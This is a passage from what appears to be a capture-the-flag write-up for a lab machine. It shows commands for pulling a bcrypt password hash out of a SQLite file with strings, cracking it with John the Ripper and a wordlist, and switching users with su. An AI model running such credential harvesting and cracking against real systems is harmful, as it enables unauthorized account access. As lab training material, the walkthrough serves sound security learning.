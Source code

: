 ### Discovering the tickets.db File

I started by thoroughly enumerating the file system. Buried within the web directory at /var/www/contact I noticed an interesting file named tickets.db.

Examining it revealed it was a SQLite database file owned by the svc user I was currently running as:
```
svc@codify:/var/www/contact$ ls -la tickets.db
-rw-r--r-- 1 svc svc 20480 Sep 12 17:45 tickets.db
```

### Extracting Credentials with strings
My next step was to extract any readable strings from the binary SQLite file using the strings utility:
```
svc@codify:/var/www/contact$ strings tickets.db

SQLite format 3
tabletickets
...
CREATE TABLE users ( 
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE, 
        password TEXT
    )
...
joshua
$2a$12$SOn8Pf6z8fO/***********/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
This revealed a bcrypt password hash for the user joshua.

### Cracking the Hash with John the Ripper
With a password hash in hand, I set out to crack it using John the Ripper. I first saved the hash to a file:
```
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```
Then I invoked John with the bcrypt format and rockyou wordlist:
```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
This successfully cracked the hash, revealing the password.

### Switching Users with su
With joshua's credentials, I was able to switch users and escalate privileges using the su command:
```
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```
